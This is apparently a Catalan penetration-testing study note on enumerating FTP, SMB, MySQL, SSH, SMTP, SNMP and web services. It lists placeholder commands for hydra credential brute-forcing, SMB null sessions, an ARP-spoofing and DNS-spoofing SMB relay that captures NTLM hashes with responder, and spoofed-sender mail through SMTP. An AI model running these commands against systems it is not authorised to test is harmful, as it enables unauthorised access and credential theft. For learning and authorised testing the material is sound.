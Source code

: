 # Service analysis
## FTP
El servei de _File Transfer Protocol_, FTP, serveix per la transferència de fitxers entre dos hosts de diferent o mateixa xarxa, amb la forma client-servidor. És molt comú el seu ús en servidors que tinguin serveis web configurats, ja que d'aquesta manera es pot afegir, treure i modificar arxius del servidor web sense haver d'accedir directament al sistema i en un entorn "controlat". La informació no viatja xifrada, pel que es pot interceptar i llegir (sempre que no s'utilitzi SFTP, que afegeix una capa SSH), i normalment es necessiten credencials per poder accedir a la comunicació. 
La enumeració d'aquest servei es basa en:
- Provar si hi ha el login anònim activat
- Enumeració d'usuaris (si la versió ho permet)
- Cerca de vulnerabilitats associades
- Força bruta de credencials
- Fer un esquema de tots els directoris i fitxers
- Descarregar tots els arxius trobats
- Revisar la informació i les metadades de cada arxiu
```bash
ftp [ip] [port] # Anonymous login
	Username: 'anonymous'
	Password: ''

hydra -L [user file] -P [pass file] ftp://[ip] # Força bruta de credencials

# FTP Commands:
ls # llistar arxius del directori
cd [directori] # canviar de directori
mget * # descarregar tots els arxius
get [arxiu] # descarregar un sol arxiu
```
## SMB
És un protocol de client-servidor molt semblant a FTP en funcionalitat però que només opera en xarxes locals. La seva funció principal és la de transferència d'arxius i directoris però també s'encarrega de l'intercanvi d'informació entre diferents processos del sistema i en la gestió de recursos de xarxa com impresores o enrutadors. Al llarg de la seva història, ha tingut diferents versions que han augmentat la seva seguretat i operativitat, sent la més recent la versió 3.1.1, de 2015. Requereix autenticació pel seu ús, tot i que les versions més antigues potser permeten una sessió nul·la, i cada usuari té uns "shares", uns directoris compartits, que poden ser privats o compartits amb altres usuaris. 
L'enumeració d'aquest servei es basa en:
- Provar un inici amb sessió nul·la
- Enumerar usuaris
- Enumerar shares
- Cerca de vulnerabilitats associades
- Força bruta de credencials
- Fer un esquema de tots els directoris i fitxers
- Descarregar tots els arxius trobats
- Revisar la informació i les metadades de cada arxiu
```bash
smbclient -L [ip] # NULL Session attack

smbmap -p [pass] -u [user] -H [host] # Llistar shares

smbclient \\\\[ip]\\share # Connectar-se a SMB

rpcclient -U [DOMINI/USER%PASS] [HOST] # Connectar-se a RPCclient

enum4linux -a [host] # Automatitza l'enumeració a través de rpcclient

# SMB Commands:
dir [directori] # canviar de directori
ls # llistar arxius del directori
get [arxiu] # descarregar un arxiu
mget * # descarregar tots els arxius
```
##### SMB Relay Attack
Si no hi ha activada la signatura dels missatges, és possible interceptar tot el tràfic SMB, inclús els missatges d'autenticació, i obtenir hashes NTLM amb els quals poder-se autenticar. Els passos per fer aquest atac són:
1. Fer-se passar pel servidor SMB a través d'ARP Spoofing i DNS Poisoning
2. Interceptar un missatge d'autenticació
3. Reenviar aquesta autenticació al servidor legítim
4. Accedir al servei SMB
```bash
# Crear un DNS Responder propi
echo "[local-ip] *.[domini]" > [arxiu]
dnsspoof -i [iface] -f [arxiu]

# MiTM entre la gateway i la víctima
echo 1 > /proc/sys/net/ipv4/ip_forward # Activar redireccionament IP
arpspoof -i [iface] [gateway_ip] [victima_ip] # Entre gateway i victima
arpspoof -i [iface] [victima_ip] [gateway_ip] # Entre víctima i gateway

# Captura el tràfic SMB (NTLM Hash)
responder -I [iface] -v
```
## MySQL
Sistema de gestió de bases de dades relacional. Tot i que no és l'únic i és possible trobar-ne d'altres i d'altres tipus, MySQL és el més comú, ja que és de codi obert. Normalment està configurat per operar en el port 3306 del localhost, pel que no es pot accedir des d'un host extern i la seva enumeració correspon més a la part de post-explotació, tot i que és possible que s'hi pugui accedir remotament en certs casos, per necessitat del propi sistema.
L'enumeració consisteix en:
- Força bruta de credencials
- Cercar vulnerabilitats de la versió utilitzada
- Provar l'accés remot
- Credencials per defecte
- Força bruta de l'usuari root (usuari per defecte)
```bash
mysql -u [usuari] -p # -p de prompt per la contrasenya
hydra -L [user_file] -P [pass_file] mysql://[host] # Força bruta
hydra -l root -P [pass_file] mysql://[host] # Força bruta a l'usuari root
```
## SSH
_Secure SHell_ és un protocol que permet l'enviament de comandes a un host remote a través d'una connexió segura. Tot i que també té autenticació i encriptació per contrasenya, és molt comú que utilitzi claus amb criptografia asimètrica. A banda de l'execució remota de comandes, també ofereix la possibilitat de tunelitzar la connexió o redireccionar ports.
L'enumeració de SSH consisteix en:
- Cercar vulnerabilitats conegudes de la versió utilitzada
- Força bruta de credencials
```bash
hydra -L [user_file] -P [pass_file] ssh://[host]
```

## SMTP
És el protocol de transferència sobre el qual viatgen els correus electrònics a través d'Internet. Utilitza SSL o TLS per establir la connexió entre l'emissor i el receptor. Per entendre-ho, els servidors SMTP són com "les oficines de Correus de la informàtica". És possible connectar-se directament al servidor SMTP i enumerar la següent informació:
- Correus vàlids
- Capacitats del servidor
Fins i tot, si ho permet la configuració, es pot utilitzar el servidor per enviar correus amb el seu propi domini i una adreça arbitrària.
```bash
nc [domini] [port_SMTP]

smtp-user-enum [wordlist] -t [domini] # Enumeració de correus

# Si permet la connexió:
VRFY [correu] # Si existeix el correu especificat
HELO || EHLO [domini] # Llistar capacitats del servidor
# Per enviar un correu:
HELO [domini]
mail from: [adreça]
rcpt to: [adreça]
data
[data]
#Per acabar la data
LF #Nova línia (Line Feed)
.
LF
```
## SNMP
_Simple Network Management Protocol_, encarregat de la gestió i monitorització de la transferència d'informació en xarxes LAN. Permet recopilar tota la informació sobre els dispositius connectats a la xarxa, pel que és bastant útil per enumerar el host. 
En la primera versió, hi ha una mena d'autenticació a través d'una "community string", necessària per l'enumeració, i en les versions posteriors es va introduir l'autenticació amb credencials d'usuari i contrasenya.
Es pot enumerar, d'aquest servei:
- Sistemes (amb SNMP activat)
- Configuració de la xarxa
- Usuaris i grups
- Informació del sistema
- Serveis i aplicacions
```bash
hydra -P [wordlist] snmp://[host] # Força bruta de community string
snmpwalk -v[versió] -c [community string] [host] # Enumeració
```
## Web Service
Els serveis web són un dels objectius més comuns, ja que es troben accessibles de forma pública i fàcil, a través de qualsevol navegador. Les principals vulnerabilitats que es poden trobar són:
- XSS
- SQLi
- CSRF
- Misconfiguracions
- Exposició d'informació sensible
- Força bruta
- Pujada de fitxes arbitraris
- DoS i DDoS
- SSRF
- Control d'Accés inadequat
- Vulnerabilitats d'aplicacions de tercers